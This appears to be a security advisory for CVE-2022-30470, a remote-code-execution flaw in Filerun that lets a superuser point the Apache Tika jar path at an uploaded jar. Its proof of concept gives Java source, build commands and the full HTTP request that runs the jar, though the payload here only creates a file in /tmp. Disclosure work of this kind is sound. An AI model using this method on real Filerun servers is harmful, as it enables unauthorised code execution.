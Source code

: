 # CVE-2022-30470 - RCE (Afian Filerun)

**CVE-ID:** CVE-2022-30470

**Affected Product:** Filerun

**Affected Versions:** Update 20220202

**Vulnerability:** Remote Code Execution

**Vendor URL:** [https://filerun.com](https://filerun.com)

**Status:** Unfixed

**Severity:** Medium


## Description
The application allows the usage of Apache Tika to extract file contents.
The path of the jar file can be configured in the web interface as superuser.

A user can upload any custom jar file to receive remote code execution.


## Proof of Concept
The first step is to create our own jar file.
In this example, we just create a new file in the `/tmp` directory.

The source of `CreateFile.java`:
```java
import java.io.File; 
import java.io.IOException;

public class CreateFile {  
  public static void main(String[] args) {  
    try {  
      File myObj = new File("/tmp/filename.txt");  
      if (myObj.createNewFile()) {  
        System.out.println("File created: " + myObj.getName());  
      } else {  
        System.out.println("File already exists.");  
      }  
    } catch (IOException e) {
      System.out.println("An error occurred.");
      e.printStackTrace();  
    }  
  }  
} 
```

Compile:
```bash
javac CreateFile.java
```

Create a manifest file `manifest.mf`:
```
Manifest-Version: 1.0
Main-Class: CreateFile

```

Finally, create the jar file `proof.jar`:
```
jar cmf manifest.mf proof.jar CreateFile.class
```

Upload the `proof.jar` file to your user files.
Visit the control panel at http://localhost/?module=cpanel#/cpanel/files/searching
Change the path of the tika jar to your own which looks something like this (in the docker version):

```
/user-files/jdoe/proof.jar
```

Click on the "test" button to check your config. The following request is triggered, which results in our new file created in `/tmp`.
```http
POST /?module=cpanel&section=settings&page=file_search&action=testTikaCli HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 145
Origin: http://localhost
Connection: close
Referer: http://localhost/?module=cpanel
Cookie: DOKU_PREFS=ext_enabled%231%23ext_disabled%231%23ext_updatable%231; FileRunSID=ca0c7810ef614b2d994278daf36afaf9
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

search_tika_path=%2Fuser-files%2Fjdoe%2Fproof.jar&search_tika_config_path=&csrf=707f3482362367cab31b77f23b8b4228c23808cd5ffe5e037aea3f3203178a97
```

